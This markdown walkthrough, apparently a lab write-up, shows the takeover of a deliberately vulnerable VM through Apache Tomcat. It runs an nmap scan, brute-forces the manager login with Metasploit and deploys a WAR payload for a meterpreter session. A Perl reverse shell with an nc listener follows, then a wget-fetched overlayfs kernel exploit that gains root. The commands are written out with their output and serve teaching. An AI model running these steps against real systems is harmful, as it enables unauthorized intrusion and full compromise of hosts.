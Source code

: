 # Tomcat

Goal of this attack is to deploy a reverse shell on the target machine.

## Port scanning to identify Tomcat

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    | http-methods:
    |   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
    |_  Potentially risky methods: PUT DELETE
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat
    ...

## Check what is available

With your browser, open the URL

    http://canyoupwnme:8080/manager

Seems that the Tomcat's management console is available, but authentication is
needed. Metsasploit can help us...

## Brute forcing the Tomcat's management console

    msf > use auxiliary/scanner/http/tomcat_mgr_login
    msf auxiliary(tomcat_mgr_login) > set rhosts canyoupwnme
    msf auxiliary(tomcat_mgr_login) > set rport 8080
    msf auxiliary(tomcat_mgr_login) > exploit

    [!] No active DB -- Credential data will not be saved!
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
    ...)
    [+] 10.0.100.195:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
        ...
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(tomcat_mgr_login) > quit

Yep! Credentials `tomcat:tomcat` were found. Still using Metasploit, we can
upload a crafted `.WAR` in order to have a meterpreter session.

## Startin a meterpreter session

    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set username tomcat
    msf exploit(tomcat_mgr_upload) > set password tomcat
    msf exploit(tomcat_mgr_upload) > set rhost canyoupwnme
    msf exploit(tomcat_mgr_upload) > set rport 8080
    msf exploit(tomcat_mgr_upload) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] canyoupwnme:8080 - Retrieving session ID and CSRF token...
    [*] canyoupwnme:8080 - Uploading and deploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Executing Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Undeploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j ...
    [*] Sending stage (45741 bytes) to 10.0.100.195
    [*] Meterpreter session 1 opened (10.0.100.245:4444 -> 10.0.100.195:52043) at 2016-04-18 13:33:40 +0200

    meterpreter > shell
    Process 1 created.
    Channel 1 created.
    id
    uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

## Becoming `root`

On the attacker machine, download and configure a Perl reverse shell

    $ wget http://pentestmonkey.net/tools/perl-reverse-shell/perl-reverse-shell-1.0.tar.gz
    $ tar zxvf perl-reverse-shell-1.0.tar.gz
    $ cd perl-reverse-shell-1.0
    $ vim perl-reverse-shell.pl # set IP and PORT at lines 45 and 46

Once prepared, upload the reverse shell on the target machine using the
meterpreter

    meterpreter > upload perl-reverse-shell.pl /tmp/perl-reverse-shell.pl
    [*] uploading  : perl-reverse-shell.pl -> /tmp/perl-reverse-shell.pl
    [*] uploaded   : perl-reverse-shell.pl -> /tmp/perl-reverse-shell.pl

On the attacker machine, start listening

    $ nc -nvp 9876
    listening on [any] 9876 ...

while on the victim machine, execute the Perl script

    meterpreter > shell
    Process 2 created.
    Channel 3 created.
    perl /tmp/perl-reverse-shell.pl
    Content-Length: 0
    Connection: close
    Content-Type: text/html

    Content-Length: 43
    Connection: close
    Content-Type: text/html

    Sent reverse shell to 10.0.100.245:9876<p>

On the attacker machine you should see something like that

    connect to [10.0.100.245] from canyoupwnme.pentest [10.0.100.195] 53929
     12:24:48 up 55 min,  0 users,  load average: 0.00, 0.01, 0.04
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    Linux canyoupwnme 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
    uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)
    /
    /usr/sbin/apache: 0: can't access tty; job control turned off
    $

Spawn a `tty` shell

    $ python -c "import pty; pty.spawn('/bin/bash');"
    tomcat7@canyoupwnme:/$  whoami
    whoami
    tomcat7
    tomcat7@canyoupwnme:/$ id
    id
    uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

and try with the `overlayfs` local root exploit used with
[Redis](000-redis.md)

    $ mkdir tmp
    $ cd tmp
    $ wget https://www.exploit-db.com/download/39166 -O ofs.c
    $ gcc ofs.c -o ofs.bin
    $ ./ofs.bin
    # id
    # uid=0(root) gid=1000(user) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(sambashare),115(lpadmin),1000(user)

Got it!
